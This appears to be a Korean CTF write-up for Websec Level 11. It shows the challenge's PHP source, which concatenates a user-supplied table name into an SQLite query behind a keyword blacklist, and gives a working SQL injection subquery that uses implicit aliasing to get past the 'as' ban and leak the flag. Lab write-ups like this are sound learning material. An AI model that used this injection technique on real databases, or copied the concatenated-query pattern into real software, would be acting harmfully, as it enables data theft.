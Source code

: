 ```yaml
---
title : "Websec - Level 11"
categories : [Wargame, Websec]
tags: [SQLi]
---
```


## Level 11
<hr style="border-top: 1px solid;"><br>

``` php
function sanitize($id, $table) {
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id; // enemy에 flag값이 들어있다.

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}

The hero number <strong><?php echo $userDetails['id']; ?></strong>
in <strong><?php echo $userDetails['table']; ?></strong>
is <strong><?php echo $userDetails['username']; ?></strong>.
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

문제 설명을 보면 AS가 강조되어 있다고 함. 

as는 별명을 붙여줄 때 사용하는데 as가 없어도 별명을 붙일 수 있음. 

table 부분에 서브쿼리를 줘서 플래그 값을 볼 수 있음.  

<br>

```(select 2 id,enemy username from costume where id like 1)```을 table 값으로, id값으로 2를 주면 플래그가 나옴.  

<br>

```sql
SELECT id,username FROM (select 2 id,enemy username FROM costume where id like 1) WHERE id = 2  
```

<br>

```select 2 id,enemy username from costume where id like 1```

위 쿼리문으로 보면 id 값에는 2가 들어가게 되고 **enemy 값이 username 컬럼명으로 바뀌어서 출력이 되므로 username 부분에서 플래그가 나옴**. 

<br><br>
<hr style="border: 2px solid;">
<br><br>
